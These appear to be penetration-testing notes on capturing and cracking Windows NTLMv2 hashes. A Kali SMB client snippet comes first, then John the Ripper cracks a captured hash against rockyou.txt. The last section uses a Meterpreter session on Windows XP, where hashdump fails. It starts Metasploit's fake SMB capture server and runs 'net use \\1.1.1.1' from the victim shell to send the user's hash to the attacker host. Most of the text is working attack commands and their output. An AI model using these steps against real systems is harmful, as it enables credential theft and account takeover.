 Client:

```
root@Kali:~# grep spnego /etc/samba/smb.conf 
client use spnego = no
root@Kali:~# smbclient //1.1.1.1/fake
Enter WORKGROUP\root's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Crack the Hash:

```
# cat /tmp/john_netntlmv2
ubuntu::WORKGROUP:1122334455667788:a6b70b49c8d42903fbe6231ce53a21ff:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
# john /tmp/john_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (ubuntu)
1g 0:00:00:00 DONE (2019-09-25 22:46) 11.11g/s 1865Kp/s 1865Kc/s 1865KC/s 24782478..playpen
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

```

### Windows XP via net use

Method also confirmed on Windows 2008r2

Based off of [hackers-arise.com](https://www.hackers-arise.com/single-post/2018/11/19/Metasploit-Basics-Part-20-Creating-a-Fake-SMB-Server-to-Capture-Credentials)

The idea here is we have a shell on a Windows box where we can't `hashdump` due to user permissions.
However, we're able to do a `net use` to make an `SMB` connection back to our server to get the
user's hash, then hopefully crack it.

```
meterpreter > getuid
Server username: WINXP\test
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/smb) > 
[*] Started service listener on 0.0.0.0:445 
[*] Server started.

msf5 auxiliary(server/capture/smb) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 892 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\test\Desktop>net use \\1.1.1.1 fake

```
